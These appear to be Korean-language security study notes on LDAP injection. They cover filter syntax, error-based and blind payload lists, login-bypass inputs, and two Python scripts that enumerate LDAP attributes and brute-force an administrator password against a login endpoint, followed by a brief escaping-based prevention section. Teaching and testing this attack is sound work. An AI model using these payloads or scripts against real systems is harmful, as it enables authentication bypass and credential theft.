 # Concept
- Lightweight Directory Access Protocol
- 사용자의 입력값이 LDAP Query에 직접 영향을 끼칠 수 있을 때 이를 통해 비정상적인 LADP 동작을 유도하는 공격 방법

- SQL Injection 방식과 거의 동일
- 로그인 ID, Password에 많이 사용


---
# LDAP
- TCP/IP 위에서 DS(Directory Service)를 조회하고 수정하는 Application Protocol
- 보통은 기업 인프라에서 사람, 기기 등의 인증에서 사용되는 경우가 많음


# LDAP Query 문법 구조
```null
Filter = ( filtercomp )
Filtercomp = and / or / not / item
And = & filterlist
Or = |filterlist
Not = ! filter
Filterlist = 1*filter
Item= simple / present / substring
Simple = attr filtertype assertionvalue
Filtertype = '=' / '~=' / '>=' / '<='
Present = attr = *
Substring = attr ”=” [initial] * [final]
Initial = assertionvalue
Final = assertionvalue
(&) = Absolute TRUE
(|) = Absolute FALSE
```

```
(&(조건1)(조건2)) : 조건1과 조건2를 모두 만족  
(|(조건1)(조건2)) : 조건1 또는 조건2를 만족  
(&(조건1)(|(조건2)(조건3))) : 조건2 또는 조건3을 만족하고 조건1를 만족

case 1 : 특정 ID의 사용자 검색  
(&(cn=silver35)(objectclass=user)) : AD의 user카테고리에서 cn값이 'silver35'인 사용자를 검색  
case 2 : 모든 사용자 검색  
(&(objectClass=user)(uid=*)) : user 카테고리에서 uid값을 모두(*) 검색
```


---
# Exploit
### error base
```
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
```

### Blind
```
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
```

### Exploitation
```
user  = *)(uid=*))(|(uid=*
pass  = password
query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"
```

```
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))
```

### Attribute List
```
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
```


### Login Bypass
```null
username = *
password= * 
전체 쿼리문 : (&(username = *)(password = * ))

username = *)(&
password = *)(&
전체 쿼리문 : (&(username = *)(&)(password = *)(&))
즉, 조건 1인 (username = *)와 조건 2인 (&)와 조건 3인 (password = *)와 조건 4인 (&)을 모두 만족

username = *)(|(&
password = pwd)
--> (&(username = *)(|(&)(passwd=pwd))
즉, 조건 1인 (username = *)와 조건 2인 (|(&)(password=pwd))를 모두 만족 
```


---
# Script
 - 어떤 LDAP 속성을 사용할 수 있는지 확인하는 스크립트
```python
#!/usr/bin/python3
import requests
import string

fields = []

url = ''

f = open('dic','r') # dic 파일에는 LDAP 속성 포함
wordl = f.read().split('\n')
f.close()

for i in wordl:
    r = requests.post(url, data = {'username':'*)('+str(i)+'=*','password':'*'}) # *)(attr=*
    if 'No search results' in r.text:
        fields.append(str(i))

print(fields)
```

- Blind Ldap Injection
```python
#!/usr/bin/python3
import requests, string

alphabet = string.ascii_letters + string.digits + "_@{}-()!\"$%=^[]:;"
password = ""

url = ''

for i in alphabet : 
    print("[i] Looking for number " + str(i))
    print(password)
    for char in alphabet:
        search = char
        r = requests.post(url, data = {'username':'username','password':password+char+'*'}) # *)(attr=*
        if 'No search results' in r.text:
            password += str(char)
            break

print(password)
```

---
# Prevention Techniques
- 아래 글자들 이스케이핑
`*` `(` `)` `.` `&` `-` `_` `[` `]` `backktick` `~` `tab` `@` `$` `%` `^` `?` `:` `{` `}` `!` `'`

---
# Reference
- [LDAP 인젝션](!https://www.hahwul.com/cullinan/ldap-injection/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)
